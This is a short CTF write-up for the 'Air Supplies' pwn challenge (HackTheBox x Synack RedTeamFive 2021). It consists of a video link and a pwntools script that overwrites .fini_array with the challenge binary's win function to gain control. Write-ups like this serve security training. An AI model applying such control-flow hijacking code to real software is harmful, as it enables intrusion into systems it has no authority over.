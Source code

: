```yaml
---
name: Air Supplies (2021)
event: HackTheBox x Synack RedTeamFive CTF 2021
category: Pwn
description: Writeup for Air Supplies (pwn) - HackTheBox x Synack RedTeamFive CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Air Supplies

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/Kqu3qpYMml8/0.jpg)](https://youtu.be/Kqu3qpYMml8?t=2276s "HackTheBox x Synack RedTeamFive 2021: Air Supplies")

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './air_supplies'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

io.sendlineafter('>', '2')  # Yes, I'm ready
io.sendlineafter('Insert what kind of supply to drop:', str(elf.symbols.__init_array_end))  # Write over .fini_array
io.sendlineafter('Insert location to drop:', str(elf.symbols._))  # With the win function

io.interactive()
```
{% endcode %}
